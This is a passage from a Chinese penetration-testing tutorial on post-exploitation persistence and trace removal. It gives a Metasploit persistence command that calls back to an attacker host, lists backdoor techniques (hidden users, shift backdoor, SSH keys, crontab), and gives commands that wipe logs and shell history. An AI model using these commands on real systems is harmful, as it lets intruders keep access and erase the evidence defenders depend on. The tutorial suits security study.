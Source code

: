 3： 404页面隐藏后门，或者在其他自带文件中插入后门代码

注：以上几种后门方法均能被D盾等工具检测到

#### Windows系统

1：建立隐藏用户，在用户名后加 $

2：在开机启动目录下放置木马文件，只要目标机器重启，将回连我们的远控

3：MSF里的 persistence 模块，执行命令可以使目标机器每隔一定时间自动回连远控。但是容易被发现

```bash
#反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
run persistence -X -i 5 -p 8888 -r 192.168.10.27  
 
#然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
```

4：在域环境下，想办法获得 krbtgt 用户的哈希，该用户的哈希可以进行票据传递攻击。而且一般该用户的密码不经常改变。

5：shift后门

6：远程桌面会话劫持

#### Linux系统

- SSH后门
- crontab定时任务
- SSH公钥
- 创建SUID=0的用户

### 痕迹清除

当我们达到了目的之后，有时候只是为了黑入网站挂黑页，炫耀一下；或者在网站留下一个后门，作为肉鸡，没事的时候上去溜达溜达；亦或者挂入挖矿木马；但是大家千万不要干这些事，这些都是违法的！

我这里只是教大家在渗透进去之后如何清除我们留下的一部分痕迹，并不能完全清除，完全清除入侵痕迹是不可能的！主要是增加管理员发现入侵者的时间成本和人力成本。只要管理员想查，无论你怎么清除，还是能查到的。

最主要还是要以隐藏自身身份为主，最好的手段是在渗透前挂上代理，然后在渗透后痕迹清除。

#### Windows系统

1：如果是windows系统，可用MSF中的 clearev 命令清除痕迹

2：如果3389远程登录过，需要清除mstsc痕迹

3：执行命令清除日志：

del %WINDR%* .log /a/s/q/f 4：如果是web应用，找到web日志文件，删除

相关文章：WINDOWS之入侵痕迹清理总结

#### Linux系统

- 如果是Linux系统，在获取权限后，执行以下命令，不会记录输入过的命令

```bash
export HISTFILE=/dev/null export HISTSIZE=0
```

- 删除 /var/log 目录下的日志文件
- 如果是web应用，找到web日志文件，删除
